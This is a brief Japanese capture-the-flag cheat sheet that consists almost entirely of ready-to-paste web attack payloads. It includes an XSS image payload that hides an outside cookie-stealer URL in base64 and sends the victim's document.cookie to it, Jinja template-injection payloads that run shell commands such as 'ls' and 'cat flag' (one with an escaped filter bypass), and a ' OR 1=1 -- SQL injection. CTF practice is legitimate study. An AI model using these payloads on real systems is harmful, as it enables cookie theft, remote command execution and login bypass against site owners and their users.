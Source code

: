 # CTFチートシート
## 目次
{:toc}
---
## Web問
### XSS
```html:XSS
&lt;img src=x onerror=fetch(atob('aHR0cHM6Ly9tYXNhLWNvb2tpZXMtc3RlYWxlci5wYWdlcy5kZXYv')+?cookie='+document.cookie)&gt;
```
この場合は、僕のサイトにクッキーを送信する。
### SSTI
問題にどこにファイルがあるかわからない時には
```python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
### SQLインジェクション
まず最初に、**'** や、**"** を試す
エラーを吐いたら、次に、
```mysql:sqlinjection
' OR 1=1 --
```
を試してみる
